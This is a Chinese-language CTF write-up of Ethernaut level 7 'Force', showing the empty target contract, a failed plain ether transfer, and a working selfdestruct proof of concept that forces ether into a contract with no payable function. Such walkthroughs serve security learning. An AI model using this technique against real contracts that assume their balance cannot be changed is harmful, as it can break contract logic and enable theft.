


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令


:::

#### 第七关Force  思路与POC

##### 目标: 想办法增加合约余额

#### 先看代码:

##### 好吧 没有代码 :six:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

#### 问题在于一个空合约该如何接收转账:question:

##### 先直接转账试一试

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceTranfer {

   receive() external payable {
       
   }
  //call函数转账失败 目标合约是空合约 没有payable标识的方法
    function transferTo(address payable dest ) public{
        
        dest.call{value : address(this).balance}("");
    }

```

##### 没有用 交易虽然成功但是转账金额被revert



#### 通过查阅文档发现如果将一个合约自毁的话是会将余额转账到备份合约上的 ,而且`selfdestruct`函数是直接操作字节码的.

#### :link:https://docs.soliditylang.org/en/v0.8.17/introduction-to-smart-contracts.html?highlight=self#deactivate-and-self-destruct

##### 试一试:

```solidity
 function selfDestroy(address payable addr ) public {
    
    selfdestruct(addr);
  }
```

##### 成功:+1:


